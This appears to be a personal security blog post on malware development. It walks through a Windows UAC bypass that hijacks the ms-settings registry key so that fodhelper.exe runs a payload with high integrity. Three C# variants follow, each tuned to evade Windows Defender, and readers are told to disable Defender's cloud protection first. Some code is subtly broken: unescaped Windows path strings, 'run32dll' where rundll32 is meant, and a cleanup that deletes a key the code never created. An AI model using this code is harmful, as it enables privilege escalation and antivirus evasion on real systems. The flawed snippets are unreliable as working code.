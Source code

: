 ```yaml
---
layout: post
title: Bypassing UAC with FodHelper
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```



FodHelper is a Windows binary used to manage optional features. `fodhelper.exe` is vulnerable because it is a high-integrity process that interacts with the `HKEY_CURRENT_USER` registry hive, which we can control. 

When launched, FodHelper will search for the `(default)` value in the `HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command` registry key. This registry key does not exist by default, so if we create it and add the DelegateExecute property, it will execute our payload in a high-integrity context.

Let's try out a console app that will make `fodhelper.exe` execute our payload, marked as `<PAYLOAD>` 

> All of the projects created in this post are on my GitHub, check them out! Don't forget to turn off`Cloud-Delivered protection` and `Automatic sample submission`.
{: .prompt-info }

```C#
using System.Diagnostics;
using Microsoft.Win32;

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", "<PAYLOAD>");

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Let's substitute `<PAYLOAD>` for `powershell.exe`, build the code and try it out.

![Image 1](/assets/image1.png)

It seems like Windows Defender doesn't want to have executables in `(default)`. What if we try `powershell` instead of `powershell.exe`?...still doesn't work. Maybe `powershell "Start-Process powershell"` do?...nope. If we can't get it to execute any commands, injecting a DLL into FodHelper is the next best thing. 

The easiest way to do this would be to make it execute `rundll32 <DLL_NAME>`. Since I don't think Defender would be too happy with our code interacting with `%windir%\System32` directly, let's make a copy of `run32dll`. Our payload should now be `C:\temp\luci C:\temp\payload.dll`. Let's apply these revisions to our code

```C#
using System.Diagnostics;
using Microsoft.Win32;
// The full and improved code in this snippet above can be found on my GitHub
private const string Payload = "C:\temp\luci.exe C:\temp\payload.dll,DllMain";

// Copy run32dll.exe to luci.exe
File.Copy(@"C:\windows\system32\rundll32.exe", @"C:\temp\luci.exe");

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", Payload);

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Having an evasive payload inside a DLL can be difficult, so let's see if this can be done any other way. What if we can somehow trick Defender into thinking the registry key has been untouched? Let's look it up.

![Image 2](/assets/image2.png)

Upon reading the documentation, I have stumbled upon this:


|CurVer |	Set the (Default) entry of this subkey to the most current version of this ProgID.Note: Unless you have side-by-side application versions, that is, multiple versions installed on the same system, you should avoid using CurVer.|
|--- |---|

***https://learn.microsoft.com/en-us/windows/win32/shell/fa-progids***

Looks fairly promising...let's see how it can be used. Consulting with StackExchange led me to this (post)[https://stackoverflow.com/questions/20974888/how-to-find-componentid-of-wscript-shell]. Finally, this should trick Defender into perceiving the registry untouched:

```C#        
// Create the registry keys
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\ms-settings\CurVer", "", ".redirect");
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\.redirect\Shell\Open\command", "", <PAYLOAD>);

 // Start the process
Process process = new Process();
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";
process.Start();

// Cleanup
System.Threading.Thread.Sleep(3000);
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\ms-settings");
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\rekt");

```

And...this got caught by Defender again. It seems like the only way to do this is using the DLL method. I'm going to attempt , I will update this post. 

Thanks for reading!
